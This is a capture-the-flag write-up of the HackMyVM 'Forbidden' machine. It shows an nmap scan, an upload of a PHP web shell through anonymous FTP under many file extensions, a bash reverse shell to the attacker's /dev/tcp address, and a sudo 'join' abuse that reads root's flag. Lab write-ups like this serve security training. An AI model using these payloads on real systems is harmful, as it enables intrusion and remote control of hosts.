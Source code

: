```yaml
---
layout: post
author: maxin
title:  "Forbidden"
date:   2022-01-01 09:37:31 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Wed Dec 29 15:11:02 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.162
Nmap scan report for 192.168.0.162
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Oct 09  2020 www [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 15:11:10 2021 -- 1 IP address (1 host up) scanned in 7.46 seconds
{% endhighlight  %}

# Port 80

On index.html we can see a message

{% highlight text  %}
SECURE WEB/FTP
Hi, Im the best admin of the world. You cannot execute .php code on this server 
so you cannot obtain a reverse shell. 
Not sure if its misconfigured another things... but the importart is that php is disabled. 
-marta
{% endhighlight  %}

This webserver has 3 file.  You can see those files connecting on FTP

- index.html
- notes.txt → A message saying about a password on a .jpg file
- robots.txt

# Port 21

Using default creds `anonymous` with a blank password

We can see the `www` directory it’s the same on webserver directory. We can try to upload some files

# Reverse shell

We can’t upload a php file, because the webserver disabled, but we can try to upload different versions of it 

First we need to create a wordlist with the extensions

{% highlight bash  %}
cat /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-extensions-lowercase.txt| grep "^.php" > extensions
{% endhighlight  %}

![Untitled](/images/forbidden/phpFiles.png)

Second we need to create a directory to storage all the files with the extensions

We need to create a directory ‘cause we’ll send all this files to FTP server

{% highlight bash  %}
mkdir files; cd files
for i in $(cat ../extensions); do touch "file$i"; done 
{% endhighlight  %}

{% highlight bash  %}
echo "<?php system(\$_GET['cmd']); ?>" > * #Send this payload to all files
{% endhighlight  %}

Connect to the FTP server and upload all the files

{% highlight bash  %}
mput *
{% endhighlight  %}

## Fuzzing

Using the wordlist created to fuzzing

{% highlight bash  %}
wfuzz -w extensions.dic -c -u "http://192.168.0.162/fileFUZZ" --hw 3

00000003:   200   0 L     0 W     0 Ch    ".php5"
{% endhighlight  %}

Use burp to make a reverse shell

{% highlight bash  %}
bash -c "bash -i >& /dev/tcp/192.168.0.216/4444 0>&1"
{% endhighlight  %}

![Untitled](/images/forbidden/reverseShell.png)

# User

On `marta’s` home directory has a hidden file, called .forbidden. We can execute this file and become `markos` user

# Root

On /var/www/html has a file called TOPSECRETIMAGE.jpg

Marta’s password is: TOPSECRETIMAGE

{% highlight bash  %}
sudo -l #Has marta

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
{% endhighlight  %}

{% highlight bash  %}
sudo join -a 2 /dev/null /root/root.txt
{% endhighlight  %}